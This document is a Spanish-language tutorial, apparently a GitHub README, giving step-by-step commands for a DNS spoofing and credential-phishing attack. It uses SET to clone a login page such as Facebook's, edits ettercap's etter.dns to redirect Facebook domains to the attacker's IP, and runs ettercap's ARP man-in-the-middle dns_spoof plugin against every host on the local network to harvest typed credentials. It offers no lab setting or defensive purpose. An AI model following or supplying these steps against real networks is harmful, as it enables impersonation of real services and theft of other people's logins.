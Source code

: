 # Tutorial DNS Spoofing


Herramientas:
- Kali Linux (no del todo necesario, pero si linux)
- Netoolkit
- Ettercap
- Ingenieria social entre otras

El DNS spoofing consiste en un metodo para alterar direcciones de los servidores DNS en redes de tal forma que nos permite suplantar la identidad de ciertas entidades

**palabras claves** : DNS, spoofing, Man in the Middle

### PASO 1:

escriba los siguientes comandos en la consola de kali

    $ Setoolkit

este comando nos mostrara la consola de **setoolkit** con todas las opciones disponibles, para nuestro caso escogeremos las opciones para la clonacion de una pagina web como sigue:

Social-Engineering Attacks -> Website Attacks Vector -> Credential Harvester Attack Method -> Site Cloner

### Paso 2:

en la consola de **setoolkit**

    set:webattack> <my ip here>   ## aqui ponemos la ip de nuestro equipo
    set:webattack> Enter the url to clone: < my url to clone here >  ## aqui ponemos la direccion de la pagina que queremos clonar, ej: www.facebook.com


luego de esto nuestro **setoolkit** ya habra clonado la pagina

### Paso 3

Ettercap es un interceptor/sniffer/registrador para LANs con switch. Soporta direcciones activas y pasivas de varios protocolos (incluso aquellos cifrados, como SSH y HTTPS). También hace posible la inyección de datos en una conexión establecida y filtrado al vuelo aun manteniendo la conexión sincronizada gracias a su poder para establecer un Ataque Man-in-the-middle(Spoofing).

Para nuestro tutorial lo usaremos para suplantar la identidad de la pagina que atacamos. En la terminal de kali ponemos lo siguiente:

    $ vim /etc/ettercap/etter.dns  ##pueden usar el editor que gusten



aqui encontraremos algunos ejemplos de como poner nuestra ip + dominio similar a como se hace en los archivos de servidores DNS de zonas:

    www.facebook.com A <my ip here>
    http://facebook.com A <my ip here>
    facebook.com A <my ip here>
    # etc        


luego cerramos y guardamos el archivo.

### Paso 4

Por ultimo ponemos el siguiente comando en la consola de kali:

    $ ettercap -Tqi eth0 -P dns_spoof -M arp /// ///

 explicacion:
 - -T = text mode
 - -q = quiet
 - -i = interface (eth0 en este caso)
 - -P dns_spoof = usar el plugin dns spoof de ettercap
 - -M arp = Man in the Middle Addres resolution protocol
 - /// /// = son todas las maquinas de la red, tambien podriamos haber puesto: /ip1// /ip2// con ip1 e ip2 un rango de ip's o una ip fija

 con esto ya habremos hecho la suplantacion en nuestra red local y para testear que todo funciona podemos ingresar a la web desde cualquier equipo de nuestra red y estaremos ingresando a la pagina clonada por nosotros. Cabe destacar que si la pagina tiene un metodo de loguin, e sposible que ettercap capture el texto ingresado en ellos y entregados por consola.
